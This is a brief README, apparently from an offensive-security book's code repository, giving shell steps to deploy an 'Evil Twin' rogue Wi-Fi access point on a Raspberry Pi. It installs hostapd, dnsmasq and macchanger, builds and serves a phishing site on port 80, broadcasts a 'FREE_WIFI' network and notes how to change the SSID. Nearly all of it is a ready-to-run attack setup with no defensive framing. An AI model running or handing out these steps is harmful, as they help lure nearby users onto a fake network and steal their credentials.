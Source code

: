 # Evil Twin

On a Raspberry Pi with Rust installed

```shell
$ sudo apt install -y macchanger hostapd dnsmasq sqlite3 libssl-dev
$ git clone https://github.com/skerkour/black-hat-rust.git && cd black-hat-rust/ch_09/evil_twin
$ make -C ../phishing/ && cp -r ../phishing/dist/* .
$ sudo ./server -p 80 &
$ sudo ./evil_twin.sh
```


Then visit the `FREE_WIFI` wifi network.

You can update the SSID (access point's name) in `hostapd.conf`.
